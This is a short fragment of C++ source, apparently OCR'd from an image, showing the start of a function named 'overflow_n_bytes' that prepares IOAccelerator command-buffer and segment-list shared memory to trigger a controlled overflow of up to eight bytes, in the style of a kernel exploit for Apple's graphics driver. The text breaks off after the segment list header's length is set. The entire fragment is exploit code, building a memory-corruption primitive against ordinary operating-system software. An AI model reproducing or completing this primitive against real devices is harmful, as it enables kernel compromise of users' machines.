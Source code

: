 ```cpp
int overflow_n_bytes(uint32_t buffer_size, int n, struct IOAccelDeviceShmemData *cmdbuf, struct IOAccelDeviceShmemData *seglist) {
    if (n > 8 || n < 0) {
        printf("[-] Can't overflow: 0 <= n <= 8\n");
        return -1;
    }
    
    submit_args.header.count = 1;
    submit_args.command.command_buffer_shmem_id = cmdbuf->shmem_id;
    submit_args.command.segment_list_shmem_id = seglist->shmem_id;

    struct IOAccelSegmentListHeader *slh = seglist->data;
    slh->length = 0x100;
